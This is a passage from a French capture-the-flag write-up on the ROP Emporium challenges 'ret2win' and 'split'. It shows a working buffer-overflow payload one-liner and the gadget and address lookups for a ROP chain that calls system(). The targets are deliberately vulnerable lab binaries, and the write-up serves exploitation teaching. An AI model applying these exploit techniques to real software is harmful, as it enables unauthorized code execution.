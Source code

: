 Il nous suffit maintenant d'envoyer 40 fois la lettre A et de concaténer une adresse valide, ici l'adresse de la fonction ret2win afin de jump sur cette dernière à la fin du sys_read.

Pour cela, nous devons récupérer l'adresse de ret2win :

```bash
gef➤  info functions
All defined functions:

Non-debugging symbols:
<...>
0x0000000000400756  ret2win
<...>
```

Nous allons donc build ce payload :

![ak](https://i.imgur.com/6QUiFZA.png)

Nous n'allons pas développer un script Python avec la librairie pwntools mais simplement un one-liner en Python :

Sans pwntools :
```bash
python2 -c "print 'A' * 40 + '\x56\x07\x40\x00\x00\x00\x00\x00' " | ./ret2win
```
Avec pwntools :
```bash
python2 -c "import pwn; print 'A' * 40 + pwn.p64(0x400756)" | ./ret2win
```

La fonction `p64()` de pwntools pack une adresse 64 bits en little endian.

# split

Pour ce deuxième challenge, nous allons commencer à apprendre le ROP avec une exploitation d'un binaire avec une première petite ROPchain !

Le but de ce challenge est d'utiliser un gadget `pop rdi ; ret` afin de passer l'argument `/bin/cat flag.txt` (présent dans le binaire) à la fonction `system()`.
Je ne vais pas rappeler les bases du ROP, je vous redirige vers [mon article sur le ROP via un leak libc](https://nuts7.github.io/return-oriented-programming/)

Récupérons les adresses de nos différents prérequis :

```bash
❯ ropper --file split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;

❯ rabin2 -z split
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
<...>
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

❯ objdump -D split -M intel | grep system@plt
0000000000400560 <system@plt>
```
